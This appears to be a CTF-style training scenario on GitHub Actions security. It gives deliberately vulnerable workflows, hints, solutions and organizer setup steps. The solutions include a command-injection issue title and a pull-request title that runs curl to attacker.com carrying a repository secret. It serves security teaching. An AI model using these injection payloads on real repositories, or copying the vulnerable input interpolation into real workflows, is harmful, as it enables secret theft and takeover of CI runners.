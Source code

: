 # Advanced Attack Scenario 10: GitHub Actions CTF-style challenge

This scenario is a CTF-style challenge that will test your knowledge of GitHub Actions security. The challenge consists of a series of progressively more difficult challenges, each of which involves a different vulnerability. To complete the challenge, you will need to find the flag at the end of each challenge.

## Challenge 1: Command Injection

**Description:**

The first challenge is a simple command injection vulnerability. You will need to find a way to execute arbitrary commands on the runner.

**Vulnerable Code:**
```yaml
name: Challenge 1
on:
  issues:
    types: [opened]
jobs:
  challenge1:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 1
        run: |
          echo "The flag is in a file called flag.txt"
          echo "flag{this_is_the_flag}" > flag.txt
          echo "Your input: ${{ github.event.issue.title }}"
```

**Hint:**

Try to use a shell command to read the contents of the `flag.txt` file.

**Solution:**

Create an issue with the title: `'; cat flag.txt'`

## Challenge 2: Secret Exfiltration

**Description:**

The second challenge is a secret exfiltration vulnerability. You will need to find a way to exfiltrate a secret from the workflow.

**Vulnerable Code:**
```yaml
name: Challenge 2
on:
  pull_request_target:
    types: [opened]
jobs:
  challenge2:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 2
        run: |
          echo "The flag is in a secret called FLAG"
          echo "Your input: ${{ github.event.pull_request.title }}"
```

**Hint:**

Try to use a shell command to exfiltrate the secret to a third-party service.

**Solution:**

Create a pull request with the title: `'; curl http://attacker.com/?flag=${{ secrets.FLAG }}'`

## Challenge 3: Privilege Escalation

**Description:**

The third challenge is a privilege escalation vulnerability. You will need to find a way to escalate your privileges on the runner.

**Vulnerable Code:**
```yaml
name: Challenge 3
on:
  push:
    branches: [ main ]
jobs:
  challenge3:
    runs-on: self-hosted
    steps:
      - name: Challenge 3
        run: |
          echo "The flag is in the /root directory"
```

**Hint:**

Try to use a kernel exploit to gain root access to the host machine.

**Solution:**

Use a kernel exploit to gain root access to the host machine and then read the contents of the `/root/flag.txt` file.

## Organizer Instructions

### Setting up the repository

1.  Create a new repository for the CTF.
2.  Add the vulnerable workflows to the `.github/workflows` directory.

### Creating the flags

1.  For challenge 1, the flag is created dynamically in the workflow.
2.  For challenge 2, create a secret called `FLAG` with the flag.
3.  For challenge 3, create a file called `flag.txt` in the `/root` directory of the self-hosted runner with the flag.

### Managing secrets

1.  For challenge 2, you will need to create a secret called `FLAG` with the flag.

### Setting up the self-hosted runner

1.  For challenge 3, you will need to set up a self-hosted runner. You can find instructions on how to do this in the [GitHub documentation](https://docs.github.com/en/actions/hosting-your-own-runners/adding-self-hosted-runners).

### Running the CTF

1.  Once you have set up the repository and the challenges, you can invite users to participate in the CTF.
2.  To verify the solutions, you can check the workflow logs for the correct output.
